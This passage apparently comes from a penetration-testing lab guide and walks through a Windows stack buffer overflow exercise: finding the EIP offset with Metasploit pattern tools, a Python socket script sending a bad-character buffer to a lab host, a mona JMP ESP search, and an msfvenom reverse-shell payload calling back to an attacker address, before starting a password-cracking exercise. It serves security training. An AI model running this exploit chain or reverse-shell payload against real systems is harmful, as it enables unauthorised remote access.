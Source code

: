    ```python
   ```

2. Find the exact offset to EIP
   ```bash
   # Command to use
   /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 3000
   # After crash, find the value in EIP and use pattern_offset.rb
   /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 39694438
   ```

3. Control EIP and identify bad characters
   ```python
   # Python script to control EIP and identify bad characters
   #!/usr/bin/python
   import socket
   
   # All possible characters
   badchars = (
       "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
       # ... rest of characters ...
   )
   
   buffer = "A" * 2003 + "B" * 4 + badchars
   
   s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
   s.connect(("192.168.100.40", 9999))
   s.send(buffer + "\r\n")
   s.close()
   ```

4. Find a JMP ESP instruction
   ```
   # In Immunity Debugger with mona.py
   !mona modules
   !mona find -s "\xff\xe4" -m module.dll
   ```

5. Generate shellcode and create the final exploit
   ```bash
   # Command to use
   msfvenom -p windows/shell_reverse_tcp LHOST=192.168.100.5 LPORT=4444 -f python -b "\x00" EXITFUNC=thread
   ```

6. Execute the exploit and obtain a shell
7. Document the exploitation process and findings

## Password Attacks Exercises

### Exercise 13: Password Cracking

**Objective**: Practice cracking password hashes using various tools.

**Setup**:
1. Use the provided password hash files in the resources directory
